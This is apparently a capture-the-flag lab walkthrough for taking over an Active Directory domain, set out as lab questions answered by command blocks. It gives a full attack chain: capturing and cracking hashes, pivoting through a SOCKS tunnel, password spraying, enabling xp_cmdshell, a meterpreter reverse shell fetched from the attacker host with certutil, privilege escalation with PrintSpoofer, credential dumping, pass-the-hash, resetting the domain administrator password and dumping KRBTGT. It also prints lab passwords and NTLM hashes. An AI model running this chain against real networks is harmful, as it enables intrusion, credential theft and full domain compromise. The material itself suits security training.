 Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?
```
responder -I ens224
```
- AB920

What is this user's cleartext password?
```
hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Submit the contents of the C:\flag.txt file on MS01
```
sudo nano /etc/proxychains.conf
./chisel_1.7.3_linux_amd64 server --reverse -v -p 1234 --socks5
./chisel_1.7.3_linux_amd64 client -v 10.10.15.229:1234 R:socks
sudo nano /etc/proxychains.conf
proxychains xfreerdp /v:172.16.7.50 /u:AB920 /p:weasal /drive:linux,/home/htb-ac-1480826
```

Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.
```
sudo crackmapexec smb 172.16.7.3 -u 'ab920' -p 'weasal' --users | tee  usernames.txt
cat usernames.txt | cut -d'\' -f2 | awk -F " " '{print $1}' | tee valid_users.txt
```

What is this user's password?
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users.txt  Welcome1
```

Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?
```
runas /netonly /user:INLANEFREIGHT\BR086 powershell
.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data
```

Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.
```
mssqlclient.py inlanefreight/netdb@172.16.7.60
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell whoami /priv
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.7.240 LPORT=8080 -f exe > backupscript.exe
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.7.240
set LPORT 8080
run
python3 -m http.server
xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240:8000/PrintSpoofer64.exe C:\Users\Public\PrintSpoofer.exe"
xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240:8000/backupscript.exe C:\Users\Public\shell.exe"
xp_cmdshell C:\Users\Public\PrintSpoofer.exe -c C:\Users\Public\shell.exe
shell
type C:\Users\Administrator\Desktop\flag.txt
```

Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host
```
load kiwi
creds_all
impacket-psexec mssqlsvc@172.16.7.50 -hashes :8c9555327d95f815987c0d81238c7660
type C:\Users\Administrator\Desktop\flag.txt
```
- load kiwi in meterpreter
- aad3b435b51404eeaad3b435b51404ee:136b3ddfbb62cb02e53a8f661248f364 (Administrator)
- 8c9555327d95f815987c0d81238c7660 (mssqlsvc)

Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What's this user's account name?
```
sudo bloodhound-python -u 'AB920' -p 'weasal' -ns 172.16.7.3 -d inlanefreight.local -c all
certutil.exe -urlcache -f http://172.16.7.240:8000/Inveigh.ps1 C:\Users\Administrator\Desktop\Inveigh.ps1
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

Crack this user's password hash and submit the cleartext password as your answer.
```
sudo hashcat -a 0 -m 5600 hash rockyou.txt
```

Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host.
```
certutil.exe -urlcache -f http://172.16.7.240:8000/PowerView.ps1 C:\Users\Administrator\Desktop\PowerView.ps1
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)
$adminPassword = ConvertTo-SecureString 'getH@cked!' -AsPlainText -Force
Set-DomainUserPassword -Identity Administrator -AccountPassword $adminPassword -Credential $Cred2 -Verbose
impacket-psexec Administrator@172.16.7.3
type C:\Users\Administrator\Desktop\flag.txt
```

Submit the NTLM hash for the KRBTGT account for the target domain after achieving domain compromise.
```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/Administrator@172.16.7.3
cat inlanefreight_hashes | grep krbtgt
```
